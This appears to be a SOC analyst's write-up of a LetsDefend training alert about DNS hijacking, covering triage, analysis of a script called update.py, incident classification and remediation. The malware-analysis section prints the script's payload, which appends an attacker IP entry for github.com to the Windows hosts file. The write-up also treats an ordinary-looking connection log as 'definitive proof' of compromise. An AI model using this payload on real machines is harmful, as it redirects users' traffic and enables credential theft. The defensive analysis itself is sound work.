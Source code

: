 # SOC116 - DNS Hijacking Detected (Event ID:49)

## Executive Summary

On February 6, 2021, the Security Operations Center (SOC) received an alert for a potential DNS Hijacking attack on the host **WilsonPRD** (172.16.17.34). The investigation confirmed that a Python script, `update.py`, was executed, maliciously modifying the system's **hosts file** to redirect `github.com` traffic to an attacker-controlled IP (`49.233.160.217`). Subsequent network logs provided definitive proof that the hijack was successful, showing the compromised host connecting to the attacker's server while believing it was communicating with the legitimate `github.com`. The `Device Action: Allowed` for the script's execution and the resulting C2 traffic confirm a full host compromise and an active Man-in-the-Middle (MITM) attack. This is a **True Positive** critical incident.

## Incident Details

The initial alert was triggered by the execution of a script with behaviors associated with DNS hijacking:

<img width="1357" height="567" alt="image" src="https://github.com/user-attachments/assets/f2b853b7-614a-4920-a3b6-89afa5463c4a" />

| | |
| :--- | :--- |
| **Date of Incident**| February 6, 2021 |
| **Source Host**| WilsonPRD (172.16.17.34) |
| **Malicious File**| update.py |
| **File Hash (MD5)**| 307b47d1217f267a47cee8dd86c2f191 |
| **Attacker C2 IP**| 49.233.160.217 |
| **Hijacked Domain**| `github.com` |
| **Attack Type**| DNS Hijacking / Man-in-the-Middle (MITM) |
| **Case Link**| *([Case link](https://app.letsdefend.io/case-management/casedetail/sohankanna/49))* |

## Investigation and Analysis

### 1. Alert Context: DNS Hijacking via the Hosts File

The rule `SOC116 - DNS Hijacking Detected` is designed to detect a critical redirection technique (MITRE ATT&CK T1565.001). The `hosts` file on a Windows system is a local DNS lookup file that overrides public DNS. By adding an entry like `49.233.160.217 github.com`, an attacker forces the victim's machine to connect to *their* malicious server instead of the real one. This is a classic Man-in-the-Middle (MITM) attack used to serve fake login pages for credential theft or to deliver malware.

### 2. Malware Analysis (Deceptive Script)

The investigation focused on the `update.py` script. While VirusTotal returned zero detections due to the script's simplicity, a static code analysis revealed its malicious payload hidden within benign-looking code.

```python
# [Benign code with progress bars...]

# --- MALICIOUS PAYLOAD ---
f = open("C:\Windows\System32\drivers\etc\hosts", "a")
f.write("49.233.160.217 github.com")
f.close()
```
This final block of code is the entire attack. It appends a line to the `hosts` file, causing all subsequent traffic for `github.com` from this machine to be redirected to the attacker's IP.

### 3. Confirmation of Success: The Hijack and C2 Connection

The investigation confirmed a full compromise through a two-step analysis:

**1. Successful Execution:** The SIEM alert's **`Device Action: Allowed`** status confirms that endpoint security did not stop the `update.py` script from running. Therefore, the `hosts` file was successfully modified.

**2. Successful C2 Connection (The "Smoking Gun"):** Network logs from shortly after the script's execution show the compromised host attempting to connect to `https://github.com`.

<img width="1264" height="315" alt="Screenshot 2025-10-15 140038" src="https://github.com/user-attachments/assets/68fbfc59-a8c7-4ce8-bff2-114089252ee3" />

While the URL in this log appears benign, the malicious `hosts` file entry means this traffic was **not sent to the legitimate GitHub servers**. Instead, it was redirected to the attacker's C2 server. This log is definitive proof that the DNS hijack was successful and that the victim's machine established a connection with the attacker's infrastructure under the guise of a legitimate site.

## Skills and Tools Utilized

*   **Tools Used:** SIEM, EDR, Network Logs, VirusTotal, Static Analysis
*   **Skills Demonstrated:** Triage, Static Code Analysis (Python), DNS Hijacking / MITM Analysis, TTP Recognition, Attack Chain Correlation.

## Playbook Solution: Incident Classification

*   **Is Traffic Malicious?** **Yes.** The script's action and the resulting C2 connection are malicious.
*   **What Is The Attack Type?** **DNS Hijacking** leading to **C2 Communication.**
*   **Was the Attack Successful?** **Yes.** The script ran, the hosts file was modified, and the host connected to the attacker's C2 server.
*   **Do You Need Tier 2 Escalation?** **Yes.** A successful MITM attack and C2 connection is a critical incident.
*   **Incident Classification:** **True Positive.**

## Conclusion and Recommendations

The alert for SOC116 was a **true positive**. An attacker successfully executed a script on the host **WilsonPRD** that hijacked its DNS resolution for `github.com`, leading to a successful connection with an attacker-controlled server. The host is compromised, and all communications to `github.com` from this host must be considered intercepted.

**Recommendations:**

1.  **CONTAINMENT - Isolate Host Immediately:** Disconnect the host **WilsonPRD** (172.16.17.34) from the network to sever any active C2 connection and prevent the user from sending credentials to the malicious site.
2.  **ERADICATION - Remediate the Hosts File:** An administrator must edit the `C:\Windows\System32\drivers\etc\hosts` file on the compromised machine and remove the malicious line (`49.233.160.217 github.com`).
3.  **CREDENTIALS - Assume Compromise:** The user's GitHub credentials must be considered stolen. The password for the user's GitHub account must be reset immediately, and any access tokens or SSH keys associated with it should be revoked.
4.  **ESCALATE:** Escalate this incident to the Tier 2/Incident Response (IR) team.
5.  **INVESTIGATION:**
    *   The IR team must determine the initial access vector for `update.py`.
    *   They should analyze any available traffic captures from the C2 connection to understand what data was exchanged.
6.  **BLOCK INDICATORS:** Block the attacker's IP address `49.233.160.217` at the network firewall. Add the hash of `update.py` (`307b47d1217f267a47cee8dd86c2f191`) to the EDR blocklist.





